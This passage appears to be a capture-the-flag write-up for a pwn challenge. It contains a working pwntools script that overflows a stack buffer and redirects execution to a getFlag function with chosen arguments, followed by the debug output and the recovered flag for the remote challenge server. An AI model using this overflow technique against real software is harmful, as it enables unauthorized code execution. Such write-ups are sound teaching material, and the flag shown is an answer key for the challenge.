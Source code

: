 It wait for two parameters and does a mul action with that values, the result has to be ```0x23```, that means ```35```. We have to send values like ```1 and 35 = 35``` or maybe ```7 and 5 = 35```.
```
from pwn import *
elf = ELF('./challenge.elf')
context(arch=elf.arch,os='linux',log_level='debug')
io = process(elf.path)

# gdb.attach(io,gdbscript='''
# 	b *0x08049214
# 	n
# 	''')

offset = 32
getflag = p32(0x08049214)

payload = b'A' * offset + b'B' * 4 + b'C' * 4 +getflag + b"D" * 4 + p32(7)+ p32(5) 
io.sendlineafter(b' That\'s it',payload)
print("Flag:",io.recvall().decode())
io.interactive()
```
Output with our fake flag
```
[DEBUG] Received 0x72 bytes:
    b'Welcome to this simple pwn challenge...\n'
    b"All you have to do is make a call to the `getFlag()` function. That's it!\n"
[DEBUG] Sent 0x39 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  42 42 42 42  43 43 43 43  14 92 04 08  44 44 44 44  │BBBB│CCCC│····│DDDD│
    00000030  07 00 00 00  05 00 00 00  0a                        │····│····│·│
    00000039
[+] Receiving all data: Done (19B)
[DEBUG] Received 0x11 bytes:
    b'flag{sp34rh34d}\n'
    b'\n'
[*] Stopped process '/home/sp34rh34d/challenge.elf' (pid 2118427)
Flag: !
flag{sp34rh34d}

```
just change the line ```io = process(elf.path)``` to ```io = remote('challenge.ctf.games',31150)``` to recover the flag.

<img width="1275" alt="Screenshot 2025-03-05 at 10 29 15 AM" src="https://github.com/user-attachments/assets/75caf14f-8155-4628-8d03-aa35c0136af8" />


Flag ```flag{8e9e2e4ec228db4207791e0a534716c3}```

